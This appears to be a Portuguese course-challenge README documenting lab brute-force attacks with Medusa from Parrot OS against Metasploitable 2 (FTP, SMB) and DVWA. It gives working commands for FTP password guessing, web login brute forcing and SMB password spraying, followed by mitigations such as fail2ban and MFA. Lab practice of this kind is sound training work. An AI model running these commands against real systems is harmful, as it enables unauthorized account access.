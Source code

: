 # dio-desafio-medusa-parrot-bruteforce

# Simulação de Ataques de Força Bruta em Ambientes Controlados: Usando Parrot OS e Medusa

Objetivo: simular ataques em FTP, Web e SMB, documentar o processo, propor mitigações

Este projeto prático foi desenvolvido como parte do desafio proposto pela DIO, com o objetivo de simular e documentar ataques de força bruta contra serviços e aplicações web em um ambiente de laboratório controlado.

A simulação utilizou o Parrot OS Security Edition como a plataforma principal de ataque, aproveitando suas ferramentas pré-instaladas, com ênfase na ferramenta Medusa, combinada com a customização de wordlists.

O ambiente de teste consistiu em máquinas virtuais configuradas em uma rede em modo Bridge, tendo como alvos principais:

# Alvo e Serviço: Metasploitable 2 (FTP). 
Objetivo da Simulação: Realizar um ataque de força bruta no serviço FTP (porta 21) para obter credenciais de acesso, demonstrando a vulnerabilidade de serviços com senhas fracas.

# Alvo e Serviço: DVWA (Damn Vulnerable Web Application)
Objetivo da Simulação: Atacar o formulário de login web, simulando a automação de tentativas de login HTTP POST com o Medusa, e entendendo como a segurança da aplicação (níveis de dificuldade) afeta a eficácia do ataque.

# Alvo e Serviço: Metasploitable 2 (SMB)
Objetivo da Simulação: Explorar a enumeração de usuários (utilizando ferramentas como enum4linux ou Nmap) e, em seguida, executar um ataque de password spraying no serviço SMB (porta 445), visando identificar contas com senhas comuns.

# Configuração do Ambiente
Máquinas Virtuais: Metasploitable 2/DVWA).
Software de Virtualização (VirtualBox). 
Configuração de Rede (Bridge).

# Passo a Passo dos Ataques Simulados
Foi criada uma seção para cada serviço atacado (FTP, Web - DVWA, SMB).

A. Ataque a FTP (Serviço vsftpd do Metasploitable 2)
# comando: medusa -h 192.168.1.7 -u msfadmin -P pass.txt -M ftp
# -h: Host Alvo
# -u: Usuário (ou -U para lista de usuários)
# -P: Wordlist de Senhas
# -M: Módulo/Serviço a ser atacado (ftp)


B. Ataque a Formulário Web (DVWA)
# comando: medusa -h 192.168.1.7 -M http -m "Location: index.php" -u "admin" -P wordlist-pass.txt -d "username=^USER^&password=^PASS^&Login=Login" -t 5 -T 1
# -H: Cabeçalho
# -d: Dados do POST, onde ^USER^ e ^PASS^ são os placeholders
# -m: Mensagem de erro (para saber quando falhou)

C. Ataque a SMB (Enumeração de Usuários e Password Spraying)
# comando: enum4linux 192.168.1.10
# Encontra usuários existentes no serviço SMB

# comando: medusa -h 192.168.1.7 -U smb_users.txt -p 'password' -M smb
# -U: Lista de Usuários
# -p: Senha única (para password spraying)

# Wordlists Utilizadas:
pass.txt, users.txt, senhas_spray.txt, smb_users.txt.

# Recomendações de Mitigação
Políticas de senha forte (complexidade, tamanho). - Técnicas: Bloqueio de IP após N tentativas (fail2ban), uso de autenticação de dois fatores (MFA), desativação de serviços não essenciais (ex: FTP/SMB se não usados), monitoramento de logs.

# Conclusão e Reflexões

O desafio prático demonstrou, de forma clara e controlada, a simplicidade e a eficácia do uso de ferramentas open-source, como o Medusa no Parrot OS, na execução de técnicas de força bruta. Em questão de segundos, foi possível evidenciar a vulnerabilidade de serviços que não aderem aos padrões básicos de segurança.

A experiência escancara como é fácil para um atacante utilizar uma *wordlist* personalizada ou pública (derivada de vazamentos históricos de dados) para obter acesso a contas com senhas fracas.

Neste cenário de ameaças, fica evidente que:

Senhas Fortes são a Base, mas Insuficientes: 
A implementação de políticas de senhas robustas é o primeiro e fundamental elo da corrente de segurança.

Autenticação de Dois Fatores (MFA) é Essencial:
A MFA se estabelece não mais como uma camada opcional, mas sim como uma necessidade crítica para defender contas contra ataques de força bruta bem-sucedidos.

Conhecimento Ofensivo para Defesa: Para nós, profissionais de Segurança da Informação, defender sistemas requer um conhecimento elementar e prático destas vulnerabilidades ofensivas. Somente ao entender como os ataques são realizados podemos implementar contramedidas eficazes, como bloqueio de IPs (fail2ban), limitação de rate e monitoramento de logs, garantindo a mitigação e prevenção de acessos indevidos aos nossos ativos.

Este projeto reforça a importância da segurança por design e da constante vigilância contra táticas de ataque que exploram a fragilidade humana e a má configuração de sistemas.

